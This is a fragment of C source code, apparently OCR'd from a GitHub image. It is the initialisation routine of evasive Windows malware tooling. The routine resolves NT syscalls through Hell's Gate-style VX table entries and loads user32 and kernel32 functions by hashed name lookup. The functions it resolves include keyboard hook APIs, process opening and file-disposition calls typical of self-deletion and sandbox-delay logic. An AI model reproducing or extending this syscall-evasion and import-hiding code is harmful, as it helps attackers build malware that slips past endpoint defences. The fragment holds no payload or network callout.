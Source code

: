 ```c
		return FALSE;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtUnmapViewOfSection))
		return FALSE;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtClose))
		return FALSE;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtCreateThreadEx))
		return FALSE;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtWaitForSingleObject))
		return FALSE;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtQuerySystemInformation))
		return FALSE;
	if (!GetVxTableEntry(pLdrDataEntry->DllBase, pImageExportDirectory, &g_Sys.NtDelayExecution))
		return FALSE;


	//	User32.dll exported
	g_Api.pCallNextHookEx      = (fnCallNextHookEx)GetProcAddressH(GetModuleHandleH(USER32DLL_JOAA), CallNextHookEx_JOAA);
	g_Api.pDefWindowProcW      = (fnDefWindowProcW)GetProcAddressH(GetModuleHandleH(USER32DLL_JOAA), DefWindowProcW_JOAA);
	g_Api.pGetMessageW         = (fnGetMessageW)GetProcAddressH(GetModuleHandleH(USER32DLL_JOAA), GetMessageW_JOAA);
	g_Api.pSetWindowsHookExW   = (fnSetWindowsHookExW)GetProcAddressH(GetModuleHandleH(USER32DLL_JOAA), SetWindowsHookExW_JOAA);
	g_Api.pUnhookWindowsHookEx = (fnUnhookWindowsHookEx)GetProcAddressH(GetModuleHandleH(USER32DLL_JOAA), UnhookWindowsHookEx_JOAA);

	if (g_Api.pCallNextHookEx == NULL || g_Api.pDefWindowProcW == NULL || g_Api.pGetMessageW == NULL || g_Api.pSetWindowsHookExW == NULL || g_Api.pUnhookWindowsHookEx == NULL)
		return FALSE;

	// 	Kernel32.dll exported
	g_Api.pGetModuleFileNameW          = (fnGetModuleFileNameW)GetProcAddressH(GetModuleHandleH(KERNEL32DLL_JOAA), GetModuleFileNameW_JOAA);
	g_Api.pCloseHandle                 = (fnCloseHandle)GetProcAddressH(GetModuleHandleH(KERNEL32DLL_JOAA), CloseHandle_JOAA);
	g_Api.pCreateFileW                 = (fnCreateFileW)GetProcAddressH(GetModuleHandleH(KERNEL32DLL_JOAA), CreateFileW_JOAA);
	g_Api.pGetTickCount64              = (fnGetTickCount64)GetProcAddressH(GetModuleHandleH(KERNEL32DLL_JOAA), GetTickCount64_JOAA);
	g_Api.pOpenProcess                 = (fnOpenProcess)GetProcAddressH(GetModuleHandleH(KERNEL32DLL_JOAA), OpenProcess_JOAA);
	g_Api.pSetFileInformationByHandle  = (fnSetFileInformationByHandle)GetProcAddressH(GetModuleHandleH(KERNEL32DLL_JOAA), SetFileInformationByHandle_JOAA);

	if (g_Api.pGetModuleFileNameW == NULL || g_Api.pCloseHandle == NULL || g_Api.pCreateFileW == NULL || g_Api.pGetTickCount64 == NULL || g_Api.pOpenProcess == NULL || g_Api.pSetFileInformationByHandle == NULL)
		return FALSE;

	return TRUE;
}
```
